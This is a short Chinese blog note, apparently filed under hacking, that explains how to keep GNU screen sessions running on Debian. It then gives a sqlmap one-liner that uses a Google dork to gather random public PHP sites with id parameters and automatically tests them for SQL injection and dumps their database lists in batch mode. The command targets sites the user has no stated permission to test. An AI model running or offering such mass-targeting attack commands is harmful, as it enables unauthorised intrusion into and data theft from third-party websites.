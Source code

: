 ```yaml
---
title: 公网sqlmap
toc: true
date: 2022-01-21 14:09:53
tags:
categories: 黑
---
```


### Linux-debian

apt-get install screen

创建会话
screen -S yigehuihua

列出会话
screen -ls

恢复会话
screen -r yigehuihua

关闭screen的会话
exit

常用快捷键
Ctrl+a c ：在当前screen会话中创建窗口
Ctrl+a w ：窗口列表
Ctrl+a n ：下一个窗口
Ctrl+a p ：上一个窗口
Ctrl+a 0-9 ：在第0个窗口和第9个窗口之间切换



google+sqlmap:`sqlmap -g "inurl:\".php?id=某id\"" --dbs --batch --threads 10 --technique EQUT | tee /home/"id=某id"`


## 参考资料
> - [SSH远程会话管理工具 - screen使用教程](https://www.vpser.net/manage/screen.html)
